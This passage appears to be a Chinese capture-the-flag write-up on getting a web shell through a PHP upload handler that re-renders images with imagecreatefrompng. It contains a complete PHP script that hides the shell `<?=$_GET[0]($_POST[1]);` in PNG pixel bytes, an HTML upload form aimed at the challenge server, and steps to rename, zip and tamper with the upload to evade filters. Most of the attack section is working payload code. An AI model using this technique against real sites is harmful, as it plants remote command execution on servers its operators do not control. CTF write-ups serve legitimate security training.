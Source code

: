 一看到`imagecreatefrompng`就知道是二次渲染，和[ctfshow](https://so.csdn.net/so/search?q=ctfshow&spm=1001.2101.3001.7020)文件上传中的一题差不多，也就是二次渲染绕过，这边我就直接用了。

运行这个脚本(php7)就会在当前目录自动生成一个带shell的png图片，shell是`<?=$_GET[0]($_POST[1]);`。

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);

$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
#<?=$_GET[0]($_POST[1]);
?>
```

然后我们把生成的图片的png后缀改为php，然后压缩为zip，构造上传页面上传，下面就是一个上传页面。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://85563469-3efd-4f10-95f4-9efac7955a50.node4.buuoj.cn:81/upload.php?ctf=upload" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="postedFile" id="postedFile"><br><!--name要根据题目的源码来调节-->
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

然后我们就可以抓包，修改内容来绕过长宽限制，以及字母过滤。
